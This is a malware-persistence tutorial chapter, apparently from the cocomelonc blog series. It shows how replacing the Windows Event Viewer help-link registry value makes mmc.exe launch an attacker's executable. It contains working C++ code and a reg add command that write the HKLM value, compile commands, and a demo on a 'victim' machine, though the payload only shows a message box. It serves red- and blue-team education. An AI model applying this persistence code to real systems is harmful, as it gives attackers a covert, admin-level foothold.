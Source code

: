 \newpage
\subsection{80. malware development: persistence - part 14. Event Viewer help link. Simple C++ example.}

﷽

![pers](./images/74/2022-10-09_05-28.png){width="80%"}    

This post is the result of my own research into one of the interesting malware persistence trick: via replacing Windows Event Viewer help link.     

### event viewer help link

Windows' Event Viewer has existed for over a decade. The Event Viewer examines a limited number of logs that Windows maintains on your computer. The logs are `XML`-formatted text files containing plain content.     

![pers](./images/74/2022-10-09_05-10.png){width="80%"}    

As part of its user interface, Event Viewer provides a link to *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

When clicked, a default help Microsoft link will be opened, which is defined at the windows registry at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](./images/74/2022-10-09_05-13.png){width="80%"}    

As you may have guessed, it would be logical to assume that the key: `MicrosoftRedirectionURL` value can be changed in the interests of an attacker. That's the trick.    

### practical example

Let's look at a practical example. Firstly, as usually, create evil application, `meow-meow` "malware" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Then, create a program for persistence (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
    // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
    // "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, just update registry key value to `file://Z:\\2022-10-09-malware-pers-14\\hack.exe`.    

### demo

Let's go to see everything in action. Compile "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_17-31.png){width="80%"}    

check correctness:    

![pers](./images/74/2022-10-09_05-38_1.png){width="80%"}    

and compile persistence script:    
```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_05-24.png){width="80%"}    

Check default registry key values at the victim's machine - `Windows 10 x64` in my case:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](./images/74/2022-10-09_05-25.png){width="80%"}    

then also run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```    

![pers](./images/74/2022-10-09_05-26.png){width="80%"}    

Finally, try to click *Event Log Online Help* link again:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

![pers](./images/74/2022-10-09_05-27.png){width="80%"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](./images/74/2022-10-09_05-34.png){width="80%"}    

![pers](./images/74/2022-10-09_05-30.png){width="80%"}    

This means that when link clicked, `mmc.exe` is launched, which in turn launches malicious behavior.    

For revert, after end of experiments, run:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v 
"MicrosoftRedirectionUrl" /t REG_SZ /d 
"http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](./images/74/2022-10-09_05-38.png){width="80%"}    

or just restore virtual machine.     

> This is admin-level malware persistence trick, so this feature is work only with admin permissions       

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        
